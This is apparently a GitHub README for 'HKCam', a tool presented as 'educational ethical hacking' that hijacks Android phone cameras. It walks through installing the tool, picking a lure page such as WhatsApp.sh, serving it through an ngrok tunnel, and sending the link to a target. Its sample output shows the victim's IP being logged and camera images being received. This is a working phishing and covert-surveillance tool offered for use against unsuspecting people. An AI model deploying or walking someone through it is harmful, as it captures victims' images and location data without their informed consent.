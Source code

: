 # HKCam

Hello Guys this is an Educational Ethical Hacking Tool - Hack Android Mobile Camera

Follow this steps to install if your a beginner

Open the terminal

Kali linux 2020

$>\sudo apt-get update
$>\sudo apt-get upgrade
$>\sudo apt-get install git

"Git" is the to download a tool/repository/projects and clone it on the root folder

to clone my repository use this following command

$>\git clone "https://xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.git"

the above link is also on the right side corner "clone or download"

$>\ls

$>\cd HKCam

if it is download folder

just extract it and paste it on the root folder

and use the cd HKCam

or use this method to unzip

$>\cd Downloads

$>\unzip HKCam.zip

to copy the folder to root directory use this following command on terminal

$>\ cd Downloads> cp HKCam /root/

$>\ cd ..

$>\root>cd HKCam

$>\root>HKCam> ls

camscript.txt       menaminiki.html     trockers.sh
docker-compose.yml  menaminiki.sh       unblock_trockers_files
docker-serveo       mokkapostu_files    unblock_trockers.html
draupathi_files     mokkapostu.html     unblock_trockers.sh
draupathi.html      mokkapostu.sh       videomemes_files
draupathi.sh        ngrok               videomemes.html
funnyfactory_files  post.php            videomemes.sh
funnyfactory.html   saved.ip.txt        WhatsApp.sh
funnyfactory.sh     serveo              yaar_paatha_vela_da_ithu_files
index2.html         serveo-linux-amd64  yaar_paatha_vela_da_ithu.html
index.php           template.php        yaar_paatha_vela_da_ithu.sh
ip.php              trockers_files
menaminiki_files    trockers.html

$>\chmod +x *

$>\ls

select the .sh file as your wish copy the file name using the mouse and follow one the command

$>\bash Whatsapp.sh

or

$>\ ./WhatsApp.sh

   ░S░E░L░F░I░E░H░A░C░K░   
   ░C░A░M░E░R░A░H░A░C░K░   
   ░M░O░B░I░L░E░H░A░C░K░   
   Mennaminiki   
  !This is Stritly For Education Purpose Only!  


[01] Serveo.net
[02] Ngrok

[+] Choose a Port Forwarding option: 2

[+] Starting php server...
[+] Starting ngrok server...                                                
[*] Direct link: https://4xxxx9xio.ngrok.io                                  

[*] Waiting targets, Press Ctrl + C to exit...

Send the link to your friend / person you wish to prank

Serveo.net is not working
"Serveo is temporarily disabled due to phishing"

Ngrok is working well

after the link opened by your friend / the who you like to prank

[+] Target opened the link!
[+] IP: 241.221.789.123

After your friend allow the permissions on his/her android mobile phone

you able to capture the and receive on the HKCam Directory

[+]CamFile Received!

[+]CamFile Received!

[+]CamFile Received!

to close the tool press Ctrl+C

then type Exit



